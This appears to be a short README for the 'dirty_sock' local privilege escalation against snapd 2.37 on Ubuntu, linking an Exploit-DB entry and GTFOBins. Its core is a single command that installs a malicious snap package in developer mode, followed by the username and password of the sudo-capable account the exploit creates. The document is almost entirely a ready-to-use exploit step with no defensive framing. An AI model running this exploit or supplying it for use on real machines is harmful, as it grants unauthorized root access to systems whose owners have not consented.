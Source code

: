 # snapd-2.37-Ubuntu---dirty_sock-Local-Privilege-Escalation-2-

https://www.exploit-db.com/exploits/46362

https://gtfobins.github.io/gtfobins/snap/

```
sudo snap install pwn.snap --dangerous --devmode
```

You can now `su` to the following account and use sudo:

username: dirty_sock

password: dirty_sock

